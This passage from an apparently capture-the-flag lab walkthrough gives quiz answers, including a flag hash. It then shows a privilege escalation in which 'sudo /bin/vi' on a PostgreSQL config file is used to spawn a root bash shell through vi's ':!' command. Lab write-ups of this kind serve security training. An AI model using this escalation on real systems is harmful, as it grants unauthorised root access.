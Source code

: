 <figure><img src="../../.gitbook/assets/image (489).png" alt=""><figcaption></figcaption></figure>

***

* With this and the previously found user flag, I answered the next questions

<figure><img src="../../.gitbook/assets/image (494).png" alt=""><figcaption></figcaption></figure>

> Answer: _**vi**_

***

<figure><img src="../../.gitbook/assets/image (495).png" alt=""><figcaption></figcaption></figure>

> Answer: _**ec9b13ca4d6229cd5cc1e09980965bf7**_

***

* Knowing this, I used the `vi` command with `sudo`, and as internally _vi_ gives the option to execute external commands using the `:!` operator, I invoked a bash with privileges, which worked perfectly and gained a shell as the _root_ user

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

# Inside vi
:!/bin/bash
```
{% endcode %}
